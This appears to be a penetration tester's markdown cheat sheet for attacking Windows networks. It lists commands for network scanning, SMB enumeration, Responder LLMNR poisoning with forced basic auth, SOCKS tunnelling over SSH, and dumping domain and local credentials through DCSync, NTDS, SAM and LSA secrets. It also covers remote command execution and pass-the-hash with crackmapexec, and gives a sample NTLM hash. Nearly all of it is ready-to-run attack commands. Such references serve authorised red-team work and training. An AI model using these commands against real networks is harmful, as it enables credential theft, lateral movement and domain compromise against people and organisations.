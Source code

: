 # Network Information

## Passive

`arp -a`

`ifconfig / ipconfig`

`tcpdump -i eth0`

`netdiscover`

## Scanning

`nbtscan 192.168.1.1/24`

`nbtscan-unixwiz 192.168.1.1/24`

`nmap -sSV --open -iL ips.txt -oA output`

`sudo nmap --script broadcast-dhcp-discover`

`ping 255.255.255.255`

## Recon

`enum4linux -a ip`

`smbmap -H ip`

`crackmapexec smb IP`

Get IP and hostname

## Responder

### Analyze Mode
`responder -I eth0 -A`

`responder -I eth0 -wFP`

### Force Basic Auth
`responder -I eth0 -wbFP`


# SSH Tunneling

### Socks proxy
`ssh -D 8080 root@IP`

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy

# Dumping

## DCSYNC

`impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output`

Gets all password history too, useful for identifying patterns

`crackmapexec smb IP -u user -p password --ntds`

## Other

`crackmapexec smb IP -u user -p password --sam`

Local SAM passwords, NTLM

`crackmapexec smb IP -u user -p password --lsa`

Looks for LSASS secrets, includes tokens and plaintext passwords stored in memory.

# Bloodhound

# crackmapexec

`crackmapexec smb IP -u user -p password -x 'whoami'`

-X for PowerShell, gets blocked by most systems

`crackmapexec smb IP -u user -H hash -x 'whoami'`

Pass the hash.

# Windows Hashes

## NTLM
Local user hash, can be relayed to hosts with SMB signing disabled.

`Admin:500:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::`

Name:RID (relative identifier):LM hash:NT hash




